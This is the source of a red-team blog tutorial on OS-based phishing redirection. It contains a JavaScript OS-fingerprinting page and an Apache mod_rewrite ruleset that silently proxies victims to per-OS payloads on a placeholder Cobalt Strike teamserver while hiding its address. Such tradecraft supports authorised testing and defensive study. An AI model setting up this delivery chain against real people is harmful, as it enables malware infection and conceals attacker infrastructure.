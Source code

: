 ```yaml
---
layout: post
title: Operating System Based Redirection with Apache mod_rewrite
summary: Redirect your phishing victims to different payloads or sites based on their operating system.
featuredimage: /assets/apache/os-detection-demo.gif
tags: 
- mod_rewrite
- phishing
---
```


At times you may find yourself testing an environment comprised of a fair mix of operating systems. Maybe the marketing department is half Windows and half Mac OS X. In these cases, it may not be feasible to determine users' operating systems via a preliminary phish.

OS detection is nothing new. The goal of this method is to allow us to perform detection and proxying in one place while looking as legitimate as possible to the phish victim. No URL changing, no excessive page reloads and refreshes. This detection method is similar to my [previous post]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/) about redirecting mobile users; however, leveraging JavaScript provides a more reliable method of operating system detection.


![OS Detection Demo](/assets/apache/os-detection-demo.gif)

{:#os-detector-page}

# OS Detector Page

The HTML code below (based on OS detection code from [javascripter.net](http://www.javascripter.net/faq/operatin.htm)) uses JavaScript to detect the user's OS and appends a URL parameter (*os_id*) to the end of the request. If the user's OS doesn't match Windows, Mac OS X, Unix, or Linux, *unknown* will be assigned to the *os_id*.

The HTML only needs to be modified if you are using the parameter *os_id* in one of the payloads or if you opt to add more granular detection, such as by OS version. The HTML file should be hosted on a Cobalt Strike teamserver or other pivoting server, such as a redirector.

```html
<html><head></head>
<body>

<script>
var url_base='http://'+window.location.host;
var OSName="unknown";
var query_string=document.location.search;
var request_path=window.location.pathname.substr(1);
if (navigator.appVersion.indexOf("Win")!=-1) OSName="windows";
if (navigator.appVersion.indexOf("Mac")!=-1) OSName="mac";
if (navigator.appVersion.indexOf("X11")!=-1) OSName="unix";
if (navigator.appVersion.indexOf("Linux")!=-1) OSName="linux";

var os_string='&os_id='+OSName;
if (query_string == '') os_string='?os_id='+OSName;
if (query_string.indexOf("os_id=")!=-1) os_string='';

window.location.replace(url_base+'/'+request_path+query_string+os_string);

</script>

</body></html>
```

{:#mod_rewrite-rules}

# mod_rewrite Rules

The following ruleset should be placed in a *.htaccess* file on your Apache redirector. Replace the *TEAMSERVER-IP* and OS payload placeholders with the IP and paths that correspond to your infrastructure for the campaign. The *OS-DETECTOR* placeholder should be replaced by the path of the above HTML file on your teamserver.

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=mac</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/MAC-OS-X-PAYLOAD</span> <span style="color: tomato">[P]</span><br>

RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=windows</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/WINDOWS-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=unix</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/UNIX-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=linux</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/LINUX-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=unknown</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/UNKNOWN-OS-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/OS-DETECTOR.HTML</span> <span style="color: tomato">[P]</span><br>
</div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'mac':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'MAC-OS-X-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'windows':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'WINDOWS-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'unix':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'UNIX-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'linux':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'LINUX-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'unknown':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'UNKNOWN-OS-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
If none of the above conditions are met, <span style="color: gold">change the entire request</span> <span style="color: orange">to serve 'OS-DETECTOR.HTML' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
</div>


In short, the ruleset checks requests for each of the OS parameters and proxies requests to the the designated payload path. The user's address bar will still read the path to they entered or clicked to get to the OS detector. As it's written, the ruleset redirects any request received to the *.htaccess* file's directory and any subdirectory to the OS detector page. If you would like to selectively redirect to that file, you can add a RewriteCond line above and catch-all RewriteRule line on the last line. See my previous mod_rewrite post about [invalid uri redirection]({{site.baseurl}}/2016-03-29-invalid-uri-redirection-with-apache-mod_rewrite) of for a more specific example.

{:#expanding-capabilities}

# Expanding Capabilities

Since the detection is simply using JavaScript to fingerprint the end-user's host and using mod_rewrite to determine the correct page to serve, one could easily expand the script to serve payloads based upon any number of criteria. For instance, the script above doesn't detect specific versions of operating systems. If that level of granularity is required, consider using the user agent to perform detection. 

An example would be to change the conditional statement in the HTML page from:

```javascript
navigator.appVersion.indexOf("Win")!=-1
```

to

```javascript
navigator.userAgent.indexOf("Windows NT 6.1")!=-1
```

The second conditional line checks for Windows 7 rather than just Windows. User agents can be spoofed or removed, so be it's a good idea to build in a backup detection method if you aren't sure the user agents will be in tact.

{:#summary}

# Summary

Operating system detection enables phishing campaigns to serve payloads based upon maximum impact per host type, rather than broadest applicability. This allows you to tailor not only the infection vector, such as Java vs. HTA, but also the post-exploit toolset, such as Cobalt Strike vs. Metasploit, based upon the likelihood of success. This capability can be extended even further to serve up specific operating system or application versions. 


# Strengthen Your Phishing with Apache mod_rewrite Posts

* [Strengthen Your Phishing with Apache mod_rewrite and Mobile User Redirection]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/)
* [Invalid URI Redirection]({{site.baseurl}}/2016-03-29-invalid-uri-redirection-with-apache-mod_rewrite/)
* Operating System Based Redirection with Apache mod_rewrite
* [Combatting Incident Responders with Apache mod_rewrite]({{site.baseurl}}/2016-04-12-combatting-incident-responders-with-apache-mod_rewrite/)
* [Expire Phishing Links with Apache RewriteMap]({{site.baseurl}}/2016-04-19-expire-phishing-links-with-apache-rewritemap/)


{:#resources}

# Resources

* [mod-rewrite-cheatsheet.com](http://mod-rewrite-cheatsheet.com)
* [Official Apache 2.4 mod_rewrite Documentation](http://httpd.apache.org/docs/current/rewrite/)
	* [Apache mod_rewrite Introduction](https://httpd.apache.org/docs/2.4/en/rewrite/intro.html)
* [An In-Depth Guide to mod_rewrite for Apache](http://code.tutsplus.com/tutorials/an-in-depth-guide-to-mod_rewrite-for-apache--net-6708)